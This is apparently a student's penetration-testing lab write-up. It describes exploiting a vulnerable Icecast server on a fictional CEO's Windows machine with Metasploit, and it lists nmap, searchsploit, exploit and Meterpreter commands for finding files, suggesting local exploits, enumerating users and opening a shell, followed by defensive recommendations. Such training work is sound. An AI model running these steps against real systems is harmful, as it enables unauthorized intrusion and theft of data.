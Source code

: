 ## Week 17: Metasploit

### Background

For this assignment I played the role of a penetration tester hired by the fictional company GoodCorp Inc. to perform security tests against the CEO's computer.

## GoodSecurity Penetration Test Report

### 1.0 High-Level Summary

GoodSecurity was tasked with performing an internal penetration test on GoodCorp’s CEO, Hans Gruber. An internal penetration test is a dedicated attack against internally connected systems. The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate Hans’ computer and determine if it is at risk. GoodSecurity’s overall objective was to exploit any vulnerable software and find the secret recipe file on Hans’ computer, while reporting the findings back to GoodCorp.
When performing the internal penetration test, there were several alarming vulnerabilities that were
identified on Hans’ desktop. When performing the attacks, GoodSecurity was able to gain access to his machine and find the secret recipe file by exploiting two programs that had major vulnerabilities. The details of the attack can be found in the ‘Findings’ category.

### 2.0 Findings

**Machine IP:**
192.168.0.20

**Hostname:**
MSEDGEWIN10

**Vulnerability Exploited:**
Icecast Header Overwrite: exploit/windows/http/icecast_header

**Vulnerability Explanation:**
This is a buffer overflow attack which allows the attacker to execute code when too much data is entered into the header of icecast versions 2.0.1 and earlier.  Specifically, 32 HTTP headers must be sent to the remote host in order to overwrite saved instructions.  This vulnerability is exploited with the help of ExitThread to make icecast think the thread is still in use.

**Severity:**
This vulnerability is critical.  An attacker could access everything on the CEO’s machine including the system information.  Therefore, this vulnerability could have been exploited for reconnaissance purposes to gather information to perform a future attack.  Additionally, an attacker potentially could have found banking information for the CEO or the company, they could have accessed sensitive documents pertaining to the CEO which could have led to the theft of his identity, or the attacker may have uncovered proprietary information about their products which the company would not want in the hands of their competitors.  As the attacker had full access to the CEO’s machine, the possibilities are endless when it comes to the damage the attacker could cause.

**Proof of Concept:**
1. Ran nmap on the IP address to perform a service and version scan: 
   - nmap -sV 192.168.0.20

2. Found the Icecast service was running so I used SearchSploit to search for exploits: 
   - searchsploit icecast

3. Set up the exploit using Metasploit:
   - search icecast
   - use exploit/windows/http/icecast_header
   - set RHOSTS 192.168.0.20
   - exploit

4. Found files:
   - Found secretfile.txt : search -f *secret*
     ![secretfile](Images/Week_17/secretfile.png)
   - Found recipe.txt: search -f *recipe*
     ![recipe](Images/Week_17/recipe.png)

5. Used Meterpreter’s local exploit searcher to determine additional exploits: 
   - run post/multi/recon/local_exploit_suggester
     - Discovered the following exploits:
       - exploit/windows/local/ikeext_service
       - exploit/windows/local/ms16_075_relection
         ![local_exploit_suggester](Images/Week_17/local_exploit_suggester.png)

6. Enumerated all logged on users: 
   - run post/windows/gather/enum_logged_on_users
     ![enum_logged_on_users](Images/Week_17/enum_logged_on_users.png)

7. Opened a Meterpreter shell and determined system information:
   - shell
   - systeminfo
     
     ![systeminfo1](Images/Week_17/systeminfo1.png)
     ![systeminfo2](Images/Week_17/systeminfo2.png)

### 3.0 Recommendations

1. All software needs to be updated to the latest versions.
2. Password protect and/or encrypt files containing sensitive information.
3. Update firewall rules to only allow traffic on necessary ports.
4. Consider limiting the information company executives have access to as they are high profile targets.
